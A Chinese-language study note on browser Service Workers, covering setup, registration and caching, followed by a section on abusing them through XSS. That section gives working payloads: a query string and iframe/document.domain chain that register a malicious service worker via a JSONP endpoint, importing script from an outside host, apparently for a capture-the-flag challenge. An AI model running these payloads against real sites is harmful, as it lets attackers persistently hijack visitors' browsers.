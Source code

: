 # Service Worker

## Service Worker 学习



### 配置检查

在已经支持 serivce workers 的浏览器的版本中，很多特性没有默认开启。如果你发现示例代码在当前版本的浏览器中怎么样都无法正常运行，你可能需要开启一下浏览器的相关配置：

- **Firefox Nightly**: 访问 `about:config` 并设置 `dom.serviceWorkers.enabled` 的值为 true; 重启浏览器；
- **Chrome Canary**: 访问 `chrome://flags` 并开启 `experimental-web-platform-features`; 重启浏览器 (注意：有些特性在Chrome中没有默认开放支持)；
- **Opera**: 访问 `opera://flags` 并开启` ServiceWorker 的支持`; 重启浏览器。 

另外，你需要通过 HTTPS 来访问你的页面 — 出于安全原因，**Service Workers 要求必须在 HTTPS 下才能运行。Github 是个用来测试的好地方，因为它就支持HTTPS。为了便于本地开发，`localhost` 也被浏览器认为是安全源。**

### 注意点

1. Service Workers 要求必须在 HTTPS 或者 localhost 下才能运行
2. Service Workers 要求尽可能的异步操作



### Service Workers 的注册及安装

通过`serviceWorkerContainer.register()`来注册一个Service Workers

eg.

```javascript
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/sw-test/sw.js', { scope: '/sw-test/' }).then(function(reg) {
    // registration worked
    console.log('Registration succeeded. Scope is ' + reg.scope);
  }).catch(function(error) {
    // registration failed
    console.log('Registration failed with ' + error);
  });
}
```

其中scope为Service Workers的作用域，默认是scriptURL(`/sw-test/sw.js`)所在的文件夹及其子文件夹，scope的选择范围只能是scriptURL所在的文件夹或者子文件夹，且不能影响其他网站，只能影响当前的域名。

scriptURL是相对于origin的URL而不是相对于引用他的那个JS文件，当然也有例外（ `Content-Type` 必须是 `text/javascript`）

> 如果你的 service worker 被激活在一个有 `Service-Worker-Allowed` header 的客户端，你可以为service worker 指定一个最大的 scope 的列表。

安装过程：

![img](https://mdn.mozillademos.org/files/12636/sw-lifecycle.png)





### 处理事件

Service Workers支持的事件如下



![install, activate, message, fetch, sync, push](https://mdn.mozillademos.org/files/12632/sw-events.png)

install:安装时会触发InstallEvent

activate:安装事件之后调用activate事件

fetch:Service Workers 中的所有请求都会触发fetch事件

sync:当发起一个同步请求是会触发sync事件







```javascript
this.addEventListener('install', function(event) {
  event.waitUntil(
    caches.open('v1').then(function(cache) {
      return cache.addAll([
        '/sw-test/',
        '/sw-test/index.html',
        '/sw-test/style.css',
        '/sw-test/app.js',
        '/sw-test/image-list.js',
        '/sw-test/star-wars-logo.jpg',
        '/sw-test/gallery/',
        '/sw-test/gallery/bountyHunters.jpg',
        '/sw-test/gallery/myLittleVader.jpg',
        '/sw-test/gallery/snowTroopers.jpg'
      ]);
    })
  );
});

self.addEventListener('activate', function(event) {
  var cacheWhitelist = ['v2'];

  event.waitUntil(
    caches.keys().then(function(keyList) {
      return Promise.all(keyList.map(function(key) {
        if (cacheWhitelist.indexOf(key) === -1) {
          return caches.delete(key);
        }
      }));
    })
  );
});

self.addEventListener('fetch', function(event) {
  event.respondWith(
    caches.match(event.request).then(function(resp) {
      return resp || fetch(event.request).then(function(response) {
        return caches.open('v1').then(function(cache) {
          cache.put(event.request, response.clone());
          return response;
        });  
      });
    })
  );
});
```





## Service Worker With XSS



### XSS简单示范



通过Service Worker 可以持久的控制受害者

利用条件如下：

1. 一个xss点
2. MIME TYPE 为 application/javascript的可控页面（通常是jsonp）



`index.php?xss=navigator.serviceWorker.register("/sw/jsonp.php?xss=importScripts(%27https://serviceworker.free.beeceptor.com/exp.js%27);");`



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});
```

### 利用Service Workers 控制主站及其子站点

假设在A.evil.com上存在XSS点，B.evil.com上存在可控jsonp，

那么我们可以通过设置`document.domain="evil.com"`，嵌入一个iframe（src=B.evil.com），然后执行恶意代码插入Service Workers

A站点执行(使用self.skipWaiting()使的Service Workes 控制当前界面)

```javascript
document.domain="evil.com";
a=document.createElement("iframe");
a.src="https://B.evil.com/";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/jsonp.php?callback=self.importScripts('//mysite.com/fuck.js')//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

这样我们便控制住了B站点



fuck.js

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});


```









## 参考

教程：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API/Using_Service_Workers

API：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API